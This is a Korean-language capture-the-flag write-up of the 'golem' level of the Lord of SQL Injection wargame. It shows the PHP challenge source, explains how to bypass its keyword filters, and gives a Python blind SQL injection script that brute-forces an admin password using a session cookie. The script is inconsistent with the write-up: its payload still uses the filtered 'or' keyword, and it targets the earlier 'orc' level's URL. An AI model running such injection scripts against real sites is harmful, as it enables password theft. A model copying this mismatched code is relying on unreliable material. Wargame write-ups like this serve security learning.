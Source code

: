 # Lord of SQL Injection No.11 - golem

## 문제 출제 의도

substr()함수를 우회하여 =과 or, and를 우회하여 Blind SQL Injection을 풀줄 안다.

## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
* preg_match 를 통해 'prob','_','.','()','or','and','substr(','=' 를 걸러낸다.

* 위 query 스트링으로 pw자리에 입력하게 된다.

* addslashes로 DB 상에서 쓰이는 ', ", \, NULL 같은 질의 문자들의 앞에 \를 붙힌 문자열을 반환한다.

* DB의 id = admin에 해당하는 pw값과 GET 방식으로 입력하는 pw의 값이 일치하면 문제풀이에 성공한다.

## 문제 해결 방안

* length 함수로 pw에 해당하는 문자열을 안다.

* or , and , substr( , = 를 필터링 하므로 or >> || , and >> &&, substr( >> substring( , = >> LIKE 로 치환하며 푼다.

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수

for i in range(1,9):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = "' or id like 'admin' || substring(pw,1,{}) like '{}' -- ;".format(str(i), result+chr(j)) 
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=ae1i7c038nndgup1torche1pt7")

        res = urllib.request.urlopen(re) # re < url에 해당하는 html데이터를 문자열로 반환한다.

        if str(res.read()).find("Hello admin") != -1: # 거기서 Hello admin이라는 문자열을 읽는다
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```

를 통하여 문제의 해답을 구할 수 있고 그것을 …?pw like 88e3137f해줄경우 문제가 해결된다